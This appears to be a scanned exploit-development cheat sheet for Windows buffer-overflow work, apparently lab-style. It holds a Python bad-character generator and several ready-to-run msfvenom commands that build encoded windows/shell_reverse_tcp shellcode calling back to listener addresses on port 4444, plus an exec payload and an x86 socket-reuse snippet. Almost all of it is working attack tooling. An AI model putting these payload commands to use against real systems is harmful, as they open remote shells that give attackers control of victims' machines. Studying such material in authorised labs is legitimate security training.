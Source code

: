 ```python
def print_badchars(badchars):
    print(
        "Current Badchars: " + "".join(
            [
                "\\x" + x.rjust(2, "0") for x in ",".join(
                [hex(x) for x in badchars]
                ).replace("0x", "").split(",")
            ]
        )
    )
    
def get_badchars(ord_start, ord_end, badchars, return_bytes=True):
    print_badchars(badchars)

    if ord_end > 0xff:
        print("Checking final characters")
        ord_end = 0xff

    print("Checking characters in range: ", ord_start, ",", ord_end)

    characters = [o for o in range(ord_start, ord_end + 1) if o not in badchars]
    print([hex(x) for x in characters])

    if return_bytes:
        characters = bytes(characters)
    else:
        characters = "".join([chr(o) for o in characters])

    return characters

```
## MSFVenom
#### Reverse Shell
351 bytes:
```bash
msfvenom -p windows/shell_reverse_tcp exitfunc=thread -a x86 -f python -b'\x00' -e x86/shikata_ga_nai -v payload LHOST=192.168.49.51 LPORT=4444
```

Common badchar version:
```bash
msfvenom -p windows/shell_reverse_tcp exitfunc=thread -a x86 -f python -b'\x00\x0a\x0d\xff' -e x86/shikata_ga_nai -v payload LHOST=192.168.1.5 LPORT=4444
```

Alphanumeric with known address:
702 bytes
```bash
msfvenom -p windows/shell_reverse_tcp exitfunc=thread -a x86 -f python -b'\x00' -e x86/alpha_mixed BufferRegister=EAX -v payload LHOST=192.168.230.10 LPORT=4444
```
#### Pop Charmap
223 bytes
```bash
msfvenom -p windows/exec -a x86 -b "\x00" --encoder x86/shikata_ga_nai CMD="charmap.exe" EXITFUNC=thread -f python -v payload
```
msf-nasm_shell
#### Socket Stealer
```x86
push esp      ;
pop eax       ;
add ax, 0x188 ; Get pointer to socket descriptor, (!!const a, exploit specific)
```